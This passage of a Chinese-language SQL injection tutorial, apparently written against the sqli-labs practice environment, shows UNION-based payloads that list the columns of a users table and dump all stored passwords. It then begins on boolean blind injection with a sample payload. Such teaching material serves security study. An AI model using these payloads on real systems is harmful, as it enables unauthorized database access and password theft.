 包含有emails、referers、uagents、users。任选其一继续深入

```mysql
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

获得当前的表中的所有字段名：id、username、password。

```mysql
-1' union select 1,2,group_concat(password) from users--+
```

至此获得所有账号的密码，也算成功了。

### 其他情况

​		上述情况为最简单的sql注入，没有任何的阻碍就可以进入，sql注入会包含其他的情况：

#### 	无回显类型

> ​		参考sqli-labs-master/Less-5/

这种类型的题目不会或者只有在正确时会有显示，而且显示值不会改变，称为盲注。

可供选择的解法有多种：布尔盲注、报错注入、时间盲注

就上述三种情况讲讲

##### 布尔盲注：

布尔盲注是基于输入数据的对错来判断注入是否正确的

![image-20200823210914857](SQL注入.assets/image-20200823210914857.png)

```mysql
1’ and 1=3--+
```

显然后面的式子是不成立的，所以无回显

![image-20200823211008688](SQL注入.assets/image-20200823211008688.png)
